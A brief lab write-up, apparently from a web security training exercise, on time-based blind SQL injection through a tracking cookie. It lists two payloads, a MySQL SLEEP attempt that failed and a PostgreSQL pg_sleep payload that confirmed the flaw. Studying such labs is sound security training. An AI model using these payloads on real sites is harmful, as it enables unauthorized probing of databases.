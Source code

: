 # Lab: Blind SQL injection with time delays

Vulnerable parameter - tracking cookie

End Goal :

- prove that the field os vulnerable to blind SQLi (time based)

Analysis :

`'+||++(SELECT+SLEEP(10))+--+%23+` -> didn't work-> NOT mysql
`'+||+(SELECT+pg_sleep(10))+--+` -> worked -> postgresssql
